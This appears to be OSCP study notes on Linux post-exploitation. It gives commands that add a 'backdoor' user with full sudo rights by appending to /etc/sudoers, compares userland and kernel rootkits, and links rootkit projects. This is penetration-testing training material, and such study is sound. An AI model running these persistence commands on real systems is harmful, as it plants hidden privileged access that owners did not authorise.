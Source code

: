# OSCP - Linux Post Exploitation
## Backdooring Linux
####  Adding a backdoor user (super visible to sysadmin)
Adding users
```
/usr/sbin/adduser backdoor
passwd backdoor
echo "backdoor ALL=(ALL) ALL" >> /etc/sudoers

```
####  Plant a rootkit (might make system unstable)
Userland rootkits
```
   +  more stable
   +  more likely to remain planted after system updates
   - more visible
   - less control
```
Kernel rootkits
```
   +  less visible
   +  complete control
   - more unstable
   - more likely to cause problems with system updates
```
https://github.com/n1nj4sec/pupy
https://github.com/r00tkillah/HORSEPILL
http://r00tkit.me/

Resources
http://pentestmonkey.net/blog/post-exploitation-without-a-tty
https://www.blackhat.com/docs/us-16/materials/us-16-Leibowitz-Horse-Pill-A-New-Type-Of-Linux-Rootkit.pdf
